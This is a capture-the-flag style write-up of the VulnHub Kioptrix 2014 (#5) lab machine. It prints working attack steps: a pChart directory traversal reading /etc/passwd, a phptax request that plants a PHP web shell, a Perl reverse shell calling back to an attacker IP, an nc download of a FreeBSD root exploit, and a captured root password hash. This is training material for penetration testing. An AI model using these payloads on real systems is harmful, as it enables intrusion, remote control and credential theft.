 [VulnHub] Kioptrix: 2014 (#5)
===============
date: 09/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Kioptrix: 2014 (#5)](https://www.vulnhub.com/entry/kioptrix-2014-5,62/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

### Killchain
![writeup.overview.killchain](/static/files/posts_vulnhub_kioptrix5/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`: [exploit_pchart](https://github.com/7h3rAm/writeups#exploit_pchart)  
2\. `8080/tcp/http/Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)`: [exploit_phptax](https://github.com/7h3rAm/writeups#exploit_phptax), [privesc_freebsd](https://github.com/7h3rAm/writeups#privesc_freebsd)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 12:11:53 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix5/results/192.168.92.185/scans/xml/_quick_tcp_nmap.xml 192.168.92.185
Nmap scan report for 192.168.92.185
Host is up, received arp-response (0.00043s latency).
Scanned at 2019-10-09 12:11:53 PDT for 35s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE REASON         VERSION
22/tcp   closed ssh     reset ttl 64
80/tcp   open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
8080/tcp open   http    syn-ack ttl 64 Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
| http-methods: 
|_  Supported Methods: HEAD
|_http-title: 403 Forbidden
MAC Address: 00:0C:29:0B:79:90 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 12:12:28 2019 -- 1 IP address (1 host up) scanned in 35.43 seconds
```

2\. While exploring the `80/tcp` service, we find a HTML comment that points to `pChart2.1.3/index.php`:  

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_vulnhub_kioptrix5/screenshot02.png.webp)  

![writeup.enumeration.steps.2.3](/static/files/posts_vulnhub_kioptrix5/screenshot03.png.webp)  

### Findings
#### Open Ports
```
80/tcp    |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
8080/tcp  |  http  |  Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
```

## Phase #2: Exploitation
1\. We use `searchsploit` to look for `pChart` exploits and find a directory traversal exploit. We use this exploit to view the contents of the `/etc/passwd` file:  
```
searchsploit pchart
searchsploit -x 31173
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../etc/passwd
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot04.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot05.png.webp)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot06.png.webp)  

2\. We use the directory traversal vulnerability to look for the Apache configuration file as `8080/tcp` is returning a `403 Forbidden` code:  
```
http://192.168.92.185/pChart2.1.3/examples/index.php?Action=View&Script=/../../usr/local/etc/apache22/httpd.conf
  SetEnvIf User-Agent ^Mozilla/4.0 Mozilla4_browser
  
  <VirtualHost *:8080>
      DocumentRoot /usr/local/www/apache22/data2
  
  <Directory "/usr/local/www/apache22/data2">
      Options Indexes FollowSymLinks
      AllowOverride All
      Order allow,deny
      Allow from env=Mozilla4_browser
  </Directory>
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot07.png.webp)  

3\. The web server is configured to only allow clients with a user-agent string starting with the `Mozilla/4.0` string. We use Burp proxy to make a request to the `8080/tcp` service:  

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_kioptrix5/screenshot08.png.webp)  

4\. Now that we can talk to the `8080/tcp` service, we find a reference to the `/phptax/` web application on this server. We find a remote code execution vulnerability for `phptax` and leverage it to get command execution:  
```
searchsploit phptax
searchsploit -x 25849
GET /phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E HTTP/1.1
  Host: 192.168.92.185:8080
  User-Agent: Mozilla/4.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
GET /phptax/data/rce.php?cmd=uname%20-a HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_kioptrix5/screenshot09.png.webp)  

![writeup.exploitation.steps.4.2](/static/files/posts_vulnhub_kioptrix5/screenshot10.png.webp)  

![writeup.exploitation.steps.4.3](/static/files/posts_vulnhub_kioptrix5/screenshot11.png.webp)  

![writeup.exploitation.steps.4.4](/static/files/posts_vulnhub_kioptrix5/screenshot12.png.webp)  

5\. We find that the remote system is FreeBSD 9. We tried Bash and Python reverse shells but both failed and as such we fall back on a [Perl reverse shell](https://www.phillips321.co.uk/2012/02/05/reverse-shell-cheat-sheet/) for interactive access:  
```
perl reverse shell (decoded): perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.92.183:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
perl reverse shell (url encoded): perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27

nc -nlvp 443
GET /phptax/data/rce.php?cmd=perl%20-MIO%20-e%20%27%24p%3Dfork%3Bexit%2Cif%28%24p%29%3B%24c%3Dnew%20IO%3A%3ASocket%3A%3AINET%28PeerAddr%2C%22192.168.92.183%3A443%22%29%3BSTDIN-%3Efdopen%28%24c%2Cr%29%3B%24~-%3Efdopen%28%24c%2Cw%29%3Bsystem%24_%20while%3C%3E%3B%27 HTTP/1.1
  Host: 192.168.92.185:8080
```

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_kioptrix5/screenshot13.png.webp)  

![writeup.exploitation.steps.5.2](/static/files/posts_vulnhub_kioptrix5/screenshot14.png.webp)  

## Phase #2.5: Post Exploitation
```
www@kioptrix2014> id
uid=80(www) gid=80(www) groups=80(www)
www@kioptrix2014>  
www@kioptrix2014> uname
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
www@kioptrix2014>  
www@kioptrix2014> ifconfig
em0:  flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
      options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
      ether 00:0c:29:0b:79:90
      inet 192.168.92.185 netmask 0xffffff00 broadcast 192.168.92.255
      nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
      media: Ethernet autoselect (1000baseT <full-duplex>)
      status: active
www@kioptrix2014>  
www@kioptrix2014> users
root
toor
```

## Phase #3: Privilege Escalation
1\. While exploring the system, we look for privilege escalation exploits for FreeBSD 9 and find two hits. Since the target system doesn't have `wget` or `curl` we fallback on `nc` to download the exploit file. Once compiled, we execute the exploit and get elevated access:  
```
searchsploit freebsd 9.0
searchsploit -x 28718
nc -nlvp 9999 <28718.c
nc 192.168.92.183 9999 >28718.c
gcc -o 28718 28718.c
./28718
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_kioptrix5/screenshot15.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_kioptrix5/screenshot16.png.webp)  

![writeup.privesc.steps.1.3](/static/files/posts_vulnhub_kioptrix5/screenshot17.png.webp)  

![writeup.privesc.steps.1.4](/static/files/posts_vulnhub_kioptrix5/screenshot18.png.webp)  

![writeup.privesc.steps.1.5](/static/files/posts_vulnhub_kioptrix5/screenshot19.png.webp)  

2\. We can now view the `congrats.txt` file to complete the challenge:  
```
cat /root/congrats.txt
```
![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_kioptrix5/screenshot20.png.webp)  

## Loot
### Hashes
```
root:$1$DdHlo6rh$usiPcDoTR37eL7DAyLjhk1:0:0::0:0:Charlie &:..............
```

## References
* <https://www.vulnhub.com/entry/kioptrix-2014-5,62/>  
* <https://www.abatchy.com/2017/01/kioptrix-2014-5-walkthrough-vulnhub.html>  
* <https://jhalon.github.io/vulnhub-kioptrix5/>  
